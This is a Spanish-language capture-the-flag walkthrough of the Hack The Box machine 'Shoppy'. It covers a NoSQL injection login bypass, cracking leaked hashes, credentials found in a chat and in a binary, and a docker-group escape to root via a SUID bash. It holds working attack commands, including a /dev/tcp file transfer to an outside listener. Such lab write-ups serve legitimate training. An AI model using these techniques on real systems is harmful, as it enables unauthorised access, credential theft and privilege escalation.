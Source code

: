 # 10.10.11.180 - Shoppy
![Shoppy](https://user-images.githubusercontent.com/96772264/214269366-d3d5cd68-b466-42c7-9e32-1eaaadffbcef.png)
-----------------------
# Part 1: Enumeración

Puertos abiertos 22, 80(http) y 9093:
En cuanto ponemos la IP sale http://shoppy.htb/ pero al no resolver el dominio da error, se soluciona poniendolo en el /etc/hosts.
```console
└─$ whatweb http://shoppy.htb    
HTML5, HTTPServer[nginx/1.23.1], JQuery
```
La web nos presenta una cuenta atras. 
![shoppy1](https://user-images.githubusercontent.com/96772264/214270005-ac9efc26-1da7-4891-9e7c-a1401cfedc08.PNG)

Si fuzeamos...
```console
└─$ wfuzz -t 200 --hc=404 --hl=7 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt http://shoppy.htb/FUZZ/
000000039:   200        25 L     62 W       1074 Ch     "login"
000000245:   302        0 L      4 W        28 Ch       "admin"
```
El codigo de error 404 es un "cannot /GET", el tipico de nginx.
Otra cosa de nginx esque funciona con javascript, asi que no fuzzearemos por extensiones php.

-----------------------
# Part 2: Nosqli

En /login nos encontramos un panel de registro. No tenemos credenciales asi que habra que tirar de inyecciones.
![shoppy2](https://user-images.githubusercontent.com/96772264/214270044-6f6d1612-a157-447b-b95b-2fce94a43aad.PNG)

```console
└─$ curl -s -X POST http://shoppy.htb/login -d "username=test&password=test"
Found. Redirecting to /login?error=WrongCredentials
```
Nginx suele usar nosqli, pero si intentamos una inyeccion se nos queda pillado:
```console
└─$ curl -s -X POST http://shoppy.htb/login -d "username=admin&password[$ne]=test"
└─$ curl -s -X POST http://shoppy.htb/login -H "Content-Type: application/json" \
-d $'{"username":"admin","password":{"$ne":""}}' -L
```
Ninguna funciona, otra inyeccion nosqli seria ```admin'||'1'=='1"``` equivalente a ```admin' or 1=1-- -``` del sql
Con esa ultima entramos al panel de administracion.
![shoppy3](https://user-images.githubusercontent.com/96772264/214270058-6bd78c48-e0f3-458a-9ec3-1bdbd9d4eeb9.PNG)

Hay un boton de "search for users", como no sabemos si hay mas gente a parte de admin repetimos la query ```admin'||'1'=='1"```, 
dandonos un boton de ver reporte:
```
{"_id": "62db0e93d6d6a999a66ee67a",
 "username": "admin",
 "password": "23c6877d9e2b564ef8b32c3a23de27b2"},
{"_id": "62db0e93d6d6a999a66ee67b",
 "username": "josh",
 "password": "6ebcea65320589ca4f2f1ce039975995"}
```
En crackstation nos crakean el 6e... como "remembermethisway"
Pero no nos sirve para ssh ```sshpass -p "remembermethisway" ssh josh@10.10.11.180```

-----------------------
# Part 3: Fuzzing y leak de creds

Si hacemos un fuzzing de subdominios con el diccionario clasico ```/usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt```
No ncontramos nada en cambio este:
```console
└─$ wfuzz -c --hl=7 -w $(locate bitquark-subdomains-top100000.txt) -H "Host: FUZZ.shoppy.htb" -u http://shoppy.htb/ -t 100
000047340:   200        0 L      141 W      3122 Ch     "mattermost"
```

mattermost.shoppy.htb nos presenta un panel de login. Entramos con las creds josh:rememberthisway
Es un chat, encontramos el mensaje en el canal "Development":
![shoppy4](https://user-images.githubusercontent.com/96772264/214270072-336bec7d-9478-483f-969d-3a7487afc0a0.PNG)

```console
Ey @jaeger, cuando estaba intentado instalar docket en la maquina empece a aprender C++ e hice un gestor de contraseñas.
Lo puedes testear si quieres, esta en la maquina 
```
En el canal "coffe-break" sale una tal jess enseñando a su gato Tigrou
En "deply-machine" nos dan las creds jaeger:Sh0ppyBest@pp!
```console
└─$ sshpass -p 'Sh0ppyBest@pp!' ssh jaeger@10.10.11.180 
```

-----------------------
# Part 4: leak de credenciales en binario

En el directorio /home de deply está ese script de C++ "password-manager.cpp"

Si enumeramos el sistema con mi script, acabamos con el resultado de ```sudo -l```
```(deploy) /home/deploy/password-manager```
```console
jaeger@shoppy:/tmp$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sh0ppyBest@pp!
Access denied! This incident will be reported !
```
Como ltrace y strace no existen, tiramos de strings:
```console
jaeger@shoppy:/tmp$ strings /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password:
Access granted! Here is creds !
cat /home/deploy/creds.txt
Access denied! This incident will be reported !

jaeger@shoppy:/tmp$ cat < /home/deploy/password-manager > /dev/tcp/10.10.14.14/666

Si recibimos el binario:
```console
└─$ sudo nc -nlvp 666 > password-manager
└─$ chmod +x password-manager
```
Abrimos el binario con ltrace y strace, no hallamos nada interesante, en cambio si intentamos leer
el codigo ensamblador con radare2

```
└─$ r2 password-manager
[0x00001120]> aaa
[0x00001120]> afl
[0x00001120]> s main
[0x00001205]> pdf
# Lineas mas adelante leemos:
0x0000129b      488d35bb0d00.  lea rsi, str.Sample         ; 0x205d ; u"Sample
```
Esto tambien se puede ver con strings si cabmiamos el encoding a little endian:
```
└─$ strings -e l password-manager
Sample
```
```console
jaeger@shoppy:/home/deploy$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```
-----------------------
# Part 5: explotando docker

Nuestro usaurio deply forma parte del grupo "docker" (comando ```id```)
```console
deploy@shoppy:/tmp$ docker images
REPOSITORY   TAG       IMAGE ID       CREATED        SIZE
alpine       latest    d7d3d98c851f   6 months ago   5.53MB
deploy@shoppy:/tmp$ docker run -it -v /:/mnt/root --name cucuxii alpine
/ # cd mnt
/mnt # ls
root
/mnt/root # ls
# Todo el sistema madre
/mnt/root/usr/bin # chmod u+s /mnt/root/usr/bin/bash
mnt/root/usr/bin # exit
deploy@shoppy:/tmp$ bash -p
bash-5.1# whoami
root
```


